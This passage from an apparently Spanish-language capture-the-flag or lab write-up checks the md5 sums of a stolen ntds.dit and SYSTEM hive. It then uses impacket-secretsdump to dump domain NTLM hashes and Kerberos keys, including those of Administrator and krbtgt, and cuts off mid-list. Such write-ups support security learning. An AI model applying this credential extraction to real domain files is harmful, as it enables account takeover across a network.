 ```bash
❯ md5sum *
f6849066d0e179ca24078906f5c5ee01  ntds.dit
f41191f7536a19abefa557c419bf5281  system.bin
```

Y ahora si, con la herramienta `secretsdump` vamos a tratar de obtener la información de dichos archivos:

```bash
❯ impacket-secretsdump -ntds ntds.dit -system system.bin LOCAL
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation     
                                                                
[*] Target system bootKey: 0x14b6fb98fedc8e15107867c4722d1399
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)                                                                    
[*] Searching for pekList, be patient           
[*] PEK # 0 found and decrypted: d77ec2af971436bccb3b6fc4a969d7ff                     
[*] Reading and decrypting hashes from ntds.dit                                                                                  
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e64fe0f24ba2489c05e64354d74ebd11:::    
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: 
WIN-3G2B0H151AC$:1000:aad3b435b51404eeaad3b435b51404ee:668d49ebfdb70aeee8bcaeac9e3e66fd:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:ca1ccefcb525db49828fbb9d68298eee:::  
WIN2K8$:1103:aad3b435b51404eeaad3b435b51404ee:160f6c1db2ce0994c19c46a349611487::: 
WINXP1$:1104:aad3b435b51404eeaad3b435b51404ee:6f5e87fd20d1d8753896f6c9cb316279:::
WIN2K31$:1105:aad3b435b51404eeaad3b435b51404ee:cdd7a7f43d06b3a91705900a592f3772:::
WIN7$:1106:aad3b435b51404eeaad3b435b51404ee:24473180acbcc5f7d2731abe05cfa88c:::
atanas:1108:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::                      
[*] Kerberos keys from ntds.dit                                                                                                  
Administrator:aes256-cts-hmac-sha1-96:6c53b16d11a496d0535959885ea7c79c04945889028704e2a4d1ca171e4374e2
Administrator:aes128-cts-hmac-sha1-96:e2a25474aa9eb0e1525d0f50233c0274                                   
Administrator:des-cbc-md5:75375eda54757c2f                                                                                       
WIN-3G2B0H151AC$:aes256-cts-hmac-sha1-96:84e3d886fe1a81ed415d36f438c036715fd8c9e67edbd866519a2358f9897233
WIN-3G2B0H151AC$:aes128-cts-hmac-sha1-96:e1a487ca8937b21268e8b3c41c0e4a74
WIN-3G2B0H151AC$:des-cbc-md5:b39dc12a920457d5                                                                                    
WIN-3G2B0H151AC$:rc4_hmac:668d49ebfdb70aeee8bcaeac9e3e66fd     
krbtgt:aes256-cts-hmac-sha1-96:14134e1da577c7162acb1e01ea750a9da9b9b717f78d7ca6a5c95febe09b35b8
krbtgt:aes128-cts-hmac-sha1-96:8b96c9c8ea354109b951bfa3f3aa4593
krbtgt:des-cbc-md5:10ef08047a862046                                                                                              
krbtgt:rc4_hmac:ca1ccefcb525db49828fbb9d68298eee                                                                                 
WIN2K8$:aes256-cts-hmac-sha1-96:289dd4c7e01818f179a977fd1e35c0d34b22456b1c8f844f34d11b63168637c5
WIN2K8$:aes128-cts-hmac-sha1-96:deb0ee067658c075ea7eaef27a605908 
WIN2K8$:des-cbc-md5:d352a8d3a7a7380b                                                                                             
WIN2K8$:rc4_hmac:160f6c1db2ce0994c19c46a349611487                                                                                
WINXP1$:aes256-cts-hmac-sha1-96:347a128a1f9a71de4c52b09d94ad374ac173bd644c20d5e76f31b85e43376d14
WINXP1$:aes128-cts-hmac-sha1-96:0e4c937f9f35576756a6001b0af04ded 
WINXP1$:des-cbc-md5:984a40d5f4a815f2                                                                                             
WINXP1$:rc4_hmac:6f5e87fd20d1d8753896f6c9cb316279                                                                                
WIN2K31$:aes256-cts-hmac-sha1-96:f486b86bda928707e327faf7c752cba5bd1fcb42c3483c404be0424f6a5c9f16
WIN2K31$:aes128-cts-hmac-sha1-96:1aae3545508cfda2725c8f9832a1a734
```